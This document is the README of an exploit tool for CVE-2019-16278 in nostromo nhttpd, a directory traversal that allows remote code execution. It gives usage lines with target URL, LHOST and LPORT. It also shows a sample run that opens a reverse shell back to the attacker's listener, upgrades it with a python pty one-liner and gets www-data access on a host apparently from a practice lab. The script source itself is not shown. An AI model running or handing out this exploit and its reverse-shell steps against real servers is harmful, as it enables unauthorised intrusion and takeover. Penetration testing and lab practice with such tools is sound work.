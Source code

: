 # nostromo remote command execution (CVE-2019-16278)

Directory Traversal in the function http_verify in nostromo nhttpd through 1.9.6 allows an attacker to achieve remote code execution via a crafted HTTP request.

## Usage

Execute without arguments to get the usage menu.

```sh
⬢  CVE-2019-16278_nostromo_rce  master ⦿ ./nostromo_rce.py 

 ▐ ▄       .▄▄ · ▄▄▄▄▄▄▄▄        • ▌ ▄ ·.       ▄▄▄   ▄▄· ▄▄▄ .
•█▌▐█▪     ▐█ ▀. •██  ▀▄ █·▪     ·██ ▐███▪▪     ▀▄ █·▐█ ▌▪▀▄.▀·
▐█▐▐▌ ▄█▀▄ ▄▀▀▀█▄ ▐█.▪▐▀▀▄  ▄█▀▄ ▐█ ▌▐▌▐█· ▄█▀▄ ▐▀▀▄ ██ ▄▄▐▀▀▪▄
██▐█▌▐█▌.▐▌▐█▄▪▐█ ▐█▌·▐█•█▌▐█▌.▐▌██ ██▌▐█▌▐█▌.▐▌▐█•█▌▐███▌▐█▄▄▌
▀▀ █▪ ▀█▄▀▪ ▀▀▀▀  ▀▀▀ .▀  ▀ ▀█▄▀▪▀▀  █▪▀▀▀ ▀█▄▀▪.▀  ▀·▀▀▀  ▀▀▀ 
[nighter@nighter.se]
    
Usage: ./nostromo_rce.py <URL> <LHOST> <LPORT>
EXAMPLE: ./nostromo_rce.py 'http://10.10.10.70' <command>
EXAMPLE: ./nostromo_rce.py 'http://10.10.10.70' 10.10.14.24 1337
```

Add target and LHOST to get a shell on vulnerable machine. 

```sh
⬢  CVE-2019-16278_nostromo_rce  master ⦾ ./nostromo_rce.py http://10.10.XX.XX 10.10.XX.XX 9001
[+] LHOST = 10.10.XX.XX
[+] LPORT = 9001
[+] Netcat = 9001
[+] Exploit
Connection from 10.10.XX.XX:36832
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@traverxec:/usr/bin$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```